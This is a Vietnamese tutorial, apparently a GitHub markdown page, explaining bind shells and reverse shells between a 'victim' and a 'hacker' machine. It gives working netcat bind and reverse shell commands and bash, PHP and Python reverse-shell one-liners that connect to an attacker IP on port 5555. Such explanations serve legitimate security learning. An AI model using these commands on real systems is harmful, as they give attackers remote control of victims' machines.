




# Bind shell và Reverse shell

## Bind shell

Ta có thể hiểu đơn giản ở đây có 2 máy một máy là máy victim và một máy là máy của hacker. Trên máy victim lúc này sẽ mở lắng nghe trên một port nào đó để lấy các câu lệnh và thực hiện. Máy của hacker sẽ mở một kết nối đến máy victim. Lúc này tại máy của hacker sẽ nhập các lệnh và các lệnh này sẽ được gửi đến máy của victim để thực hiện sau đó kết quả sẽ được gửi lại phía máy của hacker



Như vậy máy victim sẽ nghe các yêu cầu từ máy của hacker gửi đến port 5555 để thực hiện các yêu cầu đó.

Để làm được việc này ta sử dụng command `nc` để thiết lập kết nối giữa 2 máy

Trên máy victim thiết lập lắng nghe trên port 5555

```
nc -nvlp 5555 -e /bin/bash
```

Trong đó:
 * `-n` chỉ ra ở đây sử dụng IP thay vì DNS
 * `-v` để hiển thị chi tiết hoạt động trên màn hình
 * `-l` chỉ ra đây là listen mode (ở trên máy lắng nghe kết nối)
 * `-p` để chỉ ra port ở (ở đây chỉ ra port là 5555)
 * `-e` chỉ ra đường dẫn tới shell. Trong linux đường dẫn này là `/bin/bash` còn trên windows thì nó là `cmd.exe`

Còn trên máy của hacker sẽ thực hiện thiết lập kết nối đến máy victim

```
nc -nv 10.10.3.5 5555
```

Như vậy sau khi thiết lập hacker có thể đứng từ máy của mình và thao tác trên máy của victim (giống như ssh)

Trên máy victim



Trên máy của hacker


## Reverse Shell

Reverse shell và bind shell có cùng một mục đích nhưng có đôi chút khác biệt ở cách thực hiện. Ví dụ với bind shell thì nếu máy của nạn nhân là một địa chỉ private thông qua cơ chế NAT thì máy của hacker sẽ không thể nhìn thấy nó và sẽ không thể thiết lập được kết nối đến nó. Với reverse shell nó sẽ để máy của victim kết nối đến máy của hacker (Máy của hacker nên có thể thay đổi được địa chỉ phù hợp. Có thể là IP public hoặc sẽ có cơ chế NAT để cho các máy bên ngoài internet thâý được nó). Máy của hacker lúc này sẽ là máy lắng nghe các yêu cầu sau đó máy victim sẽ kết nối đến đây để lấy các yêu cầu này về và thực hiện


Trên máy của hacker thiết lập lắng nghe trên port 5555

```
nc -nvlp 5555
```

Trên máy victim thiết lập kết nối đến máy của hacker

```
nc -nv 10.10.3.1 5555 -e /bin/bash
```

Trên máy của hacker



Trên máy của victim



Hoặc ta có thể sử dụng một số lệnh khác để thực hiện reverse shell

Trên máy của hacker chỉ cần dùng lệnh `nc -lvp 5555` để lắng nghe kết nối đến

Trên máy của victim có thể sử dụng một trong các phương pháp sau:

**Bash**

```
bash -i >& /dev/tcp/10.10.3.1/5555 0>&1
```

**PHP**

```
php -r '$sock=fsockopen("10.10.3.1",5555);exec("/bin/sh -i <&3 >&3 2>&3");'
```

**Python**

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.3.5",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```